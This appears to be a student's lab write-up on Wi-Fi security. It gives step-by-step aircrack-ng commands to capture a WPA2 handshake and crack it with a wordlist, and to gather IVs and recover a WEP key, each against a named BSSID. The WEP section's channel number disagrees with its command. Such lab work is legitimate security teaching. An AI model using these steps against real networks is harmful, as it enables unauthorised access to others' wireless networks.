


# Lab 05 - WiFi Security

## 1 - WP2

BSSID: 00:1C:C2:43:EE:EA

Channel: 1

- Enable monitor mode on the network interface: `airmon-ng start wlp1s0`
- Retrieve the target BSSID: `airodump-ng wlp1s0mon`
- Capture a 4-way handshake: `airodump-ng -c 1 --bssid 00:1C:C2:43:EE:EA -w capture.cap wlp1s0mon`
- Crack the handshake: `aircrack-ng capture.cap-01.cap -w wordlist.txt`

## 2 - WEP

BSSID: 00:12:17:B7:8C:75

Channel: 1

1. Enable monitor mode on the network interface: `airmon-ng start wlp1s0`
2. Capture packets: `airodump-ng -c 6 --bssid 00:12:17:B7:8C:75 -w capture.cap wlp1s0mon`
3. Crack the key after retrieving enough IVs: `aircrack-ng -1 -a 1 -b 00:12:17:B7:8C:75 capture.cap-01.cap`

